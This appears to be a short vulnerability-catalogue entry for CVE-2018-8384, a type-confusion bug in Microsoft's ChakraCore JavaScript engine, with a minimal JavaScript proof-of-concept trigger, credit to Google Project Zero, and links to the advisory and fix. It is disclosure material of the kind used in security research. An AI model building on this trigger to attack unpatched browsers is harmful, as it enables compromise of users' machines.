 # CVE-2018-8384

- Fix: Aug 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let o = {
    get a() {},
    0: 0,  // Deoptimizing object header inlining
    a: 0x1234
};

o.a;  // Type confusion
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8384)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1586)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/765bcd2c801eedc07fd0a4e90f69d41c483aa74a)
